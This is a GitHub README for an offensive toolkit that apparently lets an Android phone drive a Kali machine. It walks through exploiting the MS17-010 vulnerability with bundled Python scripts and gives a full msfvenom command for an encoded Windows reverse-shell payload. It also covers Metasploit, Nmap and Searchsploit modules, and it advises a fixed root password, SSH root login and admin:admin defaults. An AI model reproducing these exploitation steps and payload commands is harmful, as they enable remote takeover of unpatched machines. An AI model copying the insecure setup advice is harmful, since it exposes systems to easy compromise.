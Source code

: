 # Hack Into Your Heart

**This tool is only use for academic and educational.If someone use this tool causes any loss to others, I will not take any responsibility.**

You must change root password to !ROOTER and open SSH root permissions.

Download:
```
git clone https://github.com/aifred0729-TW/hack_into_your_heart.git
```

## Usage

Install Offensive_Security on android phone or your android virtual environment.

Login page default credentials is admin:admin

Start SSH service for AI2 program connect.
Download the ms17-010.sh to /root and put the command.rc to /root, ms17-010.sh will used.
If the vulnerable VM has the MS17-010 vulnerabilities, you can run checker.py with python2 to confirm target can be exploit.
When checker.py is successful scan the vulnerable VM pipe, run send_and_execute.py with python2 to exploit the vulnerable VM.

If you no have the shell.exe, use the msfvenom to spawn one.
```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Your Local IP> LPORT=<Listen Port> -f exe -o shell.exe
```

Linux Bash:<br>
Type the IP address of kali and type your bash command on it, than you can execute.<br>
If you know how to use the ssh, then you should be know how to use this modulel.<br>

Example Command:
```
ifconfig
```

Nmap Module:<br>
Type the IP address of kali and target and setup the option then you can execute.<br>
Scan report will below the console.<br>


Searchsploit Module:<br>
Type the vulnerabilities number or CMS/Service name and version.<br>
If the input text is vulnerable, than it will show the exploit.<br>

Metasploit Module:<br>
Type the RHost LHost to input box and select a exploit module, then you can exploit.<br>
For security reason, if metasploit successful remote code execution, the target will be shutdown in 3 second.<br>
**The Target is not 100% can be exploit**


My Email:aifred0729@yahoo.com<br>
My Facebook:https://www.facebook.com/profile.php?id=100009717251061<br>

Try Harder!!


